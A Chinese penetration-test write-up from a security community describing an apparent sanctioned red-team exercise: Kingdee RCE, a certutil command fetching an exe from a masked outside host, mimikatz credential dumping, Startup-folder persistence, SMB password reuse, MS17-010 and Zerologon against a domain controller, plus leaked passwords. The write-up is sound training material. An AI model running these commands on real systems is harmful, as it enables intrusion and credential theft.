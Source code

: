

# 某次极为顺畅的实战案例 - 先知社区

某次极为顺畅的实战案例

- - -

真实案例，厚码见谅，有些步骤可能有些忘记，截图并不是很全面。

## 金蝶云星空 RCE

[![](assets/1707954485-cc6c5ad41373bcbd26aad7dcfb367784.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706693600822-57cbaabf-b4e5-4057-8d67-fd30b82ce120.png#averageHue=%23121111&clientId=u9b161eab-9b55-4&from=paste&height=363&id=u35aedbb4&originHeight=544&originWidth=1126&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=69557&status=done&style=none&taskId=u5ecb0b4e-0ed2-43ac-a80c-2ee8e1c8008&title=&width=750.6666666666666)  
shell 之后尝试上线（出网）  
certutil -urlcache -split -f [http://xx.xx.xx.xx/test.exe](http://xx.xx.xx.xx/test.exe) c:\\test.exe  
这里 exe 的位置只是一个示例，正常都是在 tmp 目录下的  
有 CS 的话，就上传 frp[![](assets/1707954485-ecdd2200c9fcc9f7a6145294b0f21649.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780036582-45c9ed80-bb36-4856-94a7-f8f621dbe962.png#averageHue=%23fafafa&clientId=u72c16cc2-3b51-4&from=paste&height=165&id=ufca44e82&originHeight=247&originWidth=966&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=27901&status=done&style=none&taskId=u1fd655fc-4365-4d91-be01-ad5ec70d580&title=&width=644)

## 本机信息收集

上传 mimikatz 收集密码本  
mimikatz 收集密码  
`mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords full"`[![](assets/1707954485-6b18d7a2be2229ae38d5653675415b5e.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706694513939-f2854869-26fd-407e-8a98-742c07a64d7a.png#averageHue=%230e0e0e&clientId=u160b632d-1584-4&from=paste&height=306&id=ubef53b29&originHeight=459&originWidth=970&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=86412&status=done&style=none&taskId=u507a78e2-c5f0-45f2-9cf2-882b8ac784f&title=&width=646.6666666666666)  
get 一个密码，乍一看还有域  
`administrator/@qweadmin5656`  
之后在翻取文件的地方，发现有个密码`HAO&^&123`

## 维权

这里因为是简单的市护网，没人应急，维权就把 exe 的木马文件放到启动目录下  
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

## 内网横向

之后就是 fscan 的扫描  
先简单的使用密码本进行横向扫描，针对 445 端口进行密码复用的爆破。  
因为 SMB 密码和 RDP 的密码是一样的。并且 SMB 的爆破速度比 RDP 更快。  
这里获取了大概五六个权限，就可以放开去扫了  
[![](assets/1707954485-905bec7d9f9ecb5f28f8601a75e7312a.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706778977874-8702becd-5734-42c2-a92f-9f00a6aa1e64.png#averageHue=%23181717&clientId=u72c16cc2-3b51-4&from=paste&height=428&id=u3f95350d&originHeight=642&originWidth=1003&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=103669&status=done&style=none&taskId=u7d598f7e-2a62-41cf-b964-821c60c1557&title=&width=668.6666666666666)  
内网中扫描到一些 海康威视综合安防管理平台  
[https://github.com/Tas9er/HikvisionIVMSGetShell](https://github.com/Tas9er/HikvisionIVMSGetShell) 换上 Gazila 的 shell  
地址为[https://xxx.xxx.xxx/abcd.jsp;js](https://xxx.xxx.xxx/abcd.jsp;js)  
[![](assets/1707954485-0368201dc33ba5482bd6d27ad7b7d94a.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706779346625-c40e8e3d-1d01-4619-a330-76fb78d34174.png#averageHue=%23000000&clientId=u72c16cc2-3b51-4&from=paste&height=505&id=ucbecc3c4&originHeight=757&originWidth=1305&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=168671&status=done&style=none&taskId=u245d3db0-fa7f-48d6-8e24-99bf08e209c&title=&width=870)  
一堆永恒之蓝，直接 msf 梭哈就行，但是命令执行多了容易崩

```bash
[+] 172.21.3x.3x MS17-010 (Windows Server 2008 R2 Enterprise 7601 Servic
e Pack 1)
[+] 172.21.3x.1x MS17-010 (Windows Server 2016 Standard 14393)
[+] 172.21.3x.x9 MS17-010 (Windows Server 2012 R2 Standard 9600)
[+] 172.21.1x9.2x7 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.2x MS17-010 (Windows 7 Enterprise 7600)
[+] 172.21.1x9.6x MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.1x0 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.1x0.1x6 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.1x3.2x5 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.1x3 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.1x2.x34 MS17-010 (Windows 7 Enterprise 7600)
[+] 172.21.1x9.x28 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.x63 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.3x.5x MS17-010 (Windows Server 2012 R2 Datacenter 9600)
[+] 172.21.1x9.x7 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.x32 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.3x.x1 MS17-010 (Windows Server 2012 R2 Standard 9600)
```

数据库弱口令，比如 root/root(mysql),sa/123456（mssql），redis 未授权按，大概十几个数据库，几十万数据，就不一一放截图了。  
[![](assets/1707954485-51ac3d8d54100f50c8db647b5757ba2e.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706779703407-73034212-42d5-4ac1-95d9-f90e0a6644f2.png#averageHue=%23f8f8f8&clientId=u72c16cc2-3b51-4&from=paste&height=527&id=ue8b568f7&originHeight=790&originWidth=1147&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=142317&status=done&style=none&taskId=u3ff17659-50c3-4e7d-a96d-7ae5f65f6d6&title=&width=764.6666666666666)  
如上所见 基本上都是 172 段的机子，在某次 RDP 的时候发现一个双网卡机子，通 192 段和 169.254 段（突破网络限制 1000 分）  
[![](assets/1707954485-a08c272c71ed754e2b21a229b48942e2.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706779932502-cf92b7db-93b3-436f-813a-f899d39635e7.png#averageHue=%23111010&clientId=u72c16cc2-3b51-4&from=paste&height=412&id=u3cca8a8d&originHeight=618&originWidth=1299&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=213309&status=done&style=none&taskId=u79a39e98-17db-4dd8-96b2-c13825c131d&title=&width=866)  
但是这里只梭哈了 192 段。  
由于这个双网卡机子出网，所以就上了个 frp，继续上传 mimikatz 查看密码本。这里过程重复上面的过程了基本上，就不重新描述了。  
有意思的是在扫描的过程中看到了域控。zerologon 直接 getshell  
[![](assets/1707954485-9626c0395a505aae0007d9d073a122dc.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780197230-72ca064e-9537-4b32-846c-3d8af4728d8b.png#averageHue=%2334363e&clientId=u72c16cc2-3b51-4&from=paste&height=216&id=u4bc8e3f9&originHeight=324&originWidth=1471&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=275829&status=done&style=none&taskId=u1530c692-656c-40cc-b605-5fac39a535a&title=&width=980.6666666666666)  
[![](assets/1707954485-0ebe273a46852cf4e054e7ee290ce0c3.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780296062-77f82929-b435-4faf-bdff-705ac0bb6bf2.png#averageHue=%23292c36&clientId=u72c16cc2-3b51-4&from=paste&height=226&id=u0dba93bc&originHeight=339&originWidth=822&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=84465&status=done&style=none&taskId=ufbe971e8-a202-4944-8aa5-891633bb30b&title=&width=548)  
[![](assets/1707954485-edfb4017b43f1411bafca9ee64aa8fda.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780325467-e83bc7b3-be26-45b5-bbd7-7592e19d1219.png#averageHue=%23f6f4f1&clientId=u72c16cc2-3b51-4&from=paste&height=419&id=ue90e0d8c&originHeight=628&originWidth=919&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=223628&status=done&style=none&taskId=u51b1c432-e3f3-414c-9c4d-642e0d98917&title=&width=612.6666666666666)  
加个域管理，收工。  
[![](assets/1707954485-08c0563bc0e5524824e0f35d8b449cce.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780376073-345c3df0-8ac5-4b68-92fd-a1a2a6665730.png#averageHue=%23050504&clientId=u72c16cc2-3b51-4&from=paste&height=339&id=ubd00380d&originHeight=508&originWidth=1336&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=109838&status=done&style=none&taskId=u8623506e-dbbe-47e4-8cf3-f53a08fe59c&title=&width=890.6666666666666)  
回头看看这个靶标，拿下的基本上很顺利，并没有什么坑坑绕绕。基本上一直在重复扫描，收集信息，继续扫描的过程

